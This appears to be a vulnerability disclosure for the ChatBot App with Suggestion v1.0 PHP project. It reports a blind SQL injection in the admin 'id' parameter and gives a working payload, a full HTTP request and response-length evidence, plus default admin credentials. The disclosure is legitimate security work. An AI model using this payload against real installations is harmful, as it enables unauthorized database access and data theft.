 # ChatBot App with Suggestion v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: /simple_chat_bot/admin/?page=responses/view_response&id=

Vulnerability location: /simple_chat_bot/admin/?page=responses/view_response&id=, id

[+] Payload: /simple_chat_bot/admin/?page=responses/view_response&id=8%27%20and%20length(database())%20=11--+ // Leak place ---> id

Current database name: chat_bot_db,length is 11

```sql
GET /simple_chat_bot/admin/?page=responses/view_response&id=8%27%20and%20length(database())%20=11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 10, Content-Length: 24001
![image](https://user-images.githubusercontent.com/54017627/170820197-7eb4519b-d9bc-45ac-935f-f54d13eec85d.png)

![image](https://user-images.githubusercontent.com/54017627/170820211-7615e13b-35e4-4321-90e4-2fa7d3bf748d.png)

When length (database ()) = 11, Content-Length: 24317
![image](https://user-images.githubusercontent.com/54017627/170820187-b7e57f31-27c1-474d-8134-2f7bfc2381a5.png)

![image](https://user-images.githubusercontent.com/54017627/170820205-b73c1260-e8e3-4a75-bda8-ea60494084ab.png)
